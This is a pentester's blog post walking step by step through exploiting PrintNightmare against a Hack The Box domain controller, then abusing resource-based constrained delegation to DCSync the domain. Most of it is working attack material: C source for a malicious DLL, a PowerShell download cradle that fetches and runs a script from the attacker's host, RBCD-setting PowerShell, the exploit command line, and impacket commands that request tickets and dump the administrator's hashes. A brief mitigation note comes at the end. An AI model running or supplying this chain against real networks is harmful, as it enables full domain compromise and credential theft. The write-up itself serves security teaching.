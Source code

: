 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-16751, cve-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) exploit (post CVE-2021-1675) abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

**<ins>UPD.</ins>** A few days later Microsoft assinged it a brand new **CVE-2021-34527**.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of a computer account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a domain controller an adversary can configure RBCD bits for that specific DC computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```powershell
PS > (Get-WmiObject -ClassName Win32_OperatingSystem).Caption
Microsoft Windows Server 2016 Standard

PS > (Get-WmiObject -ClassName Win32_OperatingSystem).ProductType
2

PS > systeminfo.exe | findstr OS | select -First 4
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller

PS > Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

## A Living Nightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command from inside the DLL in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)).

Firstly, I will enumerate if `ms-DS-MachineAccountQuota` allows to add new computer accounts. Do it with PowerShell:

```powershell
Get-ADObject -Identity "DC=megacorp,DC=local" -Properties * | select ms-ds-machineAccountQuota
```

[![check-machineaccountquota-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)

Or do it remotely from Linux with [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```bash
./go-windapsearch --dc 10.10.10.179 -d megacorp.local -u lowpriv -p 'Passw0rd1!' -m custom --filter '(&(objectClass=domain)(distinguishedName=DC=megacorp,DC=local))' --attrs ms-ds-machineAccountQuota
```

[![check-machineaccountquota-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)

At this point I'm sure that new machine account creation will succeed:

```bash
addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file containing a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
cat crandle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

cat crandle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will put the resulting base64 command into the DLL source code and cross-compile it to x64 using MinGW:

```bash
x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the SMB share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit itself](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the exploit script according to the environment:

```powershell
ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `msDS-AllowedToActOnBehalfOfOtherIdentity` property containing objects that can delegate to MULTIMASTER. It can be verified like follows with PowerShell:

```powershell
Get-ADComputer MULTIMASTER -Properties * | select -Expand msds-allowedToActOnBehalfOfOtherIdentity
```

[![check-delegation-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)

Or I can modify the `findDelegation.py` script to look for delegations on DCs (get rid of this `(!(UserAccountControl:1.2.840.113556.1.4.803:=8192))` part of the search query [here](https://github.com/SecureAuthCorp/impacket/blob/4821d64e3a078a79e60c0b03f08d0984d9a17728/examples/findDelegation.py#L131) which excludes domain controllers from the result) and perform the enumeration from Linux:

```bash
findDelegation.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179
```

[![check-delegation-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)

Now I can request a service ticket for LDAP:

```bash
getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate 'MULTIMASTER$'
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py` impersonating the domain controller:

```bash
export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/MULTIMASTER\$.ccache
secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

More info on PrintNightmare exploits and the reproducibility of the bug [can be found on my GitBook](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/printnightmare).
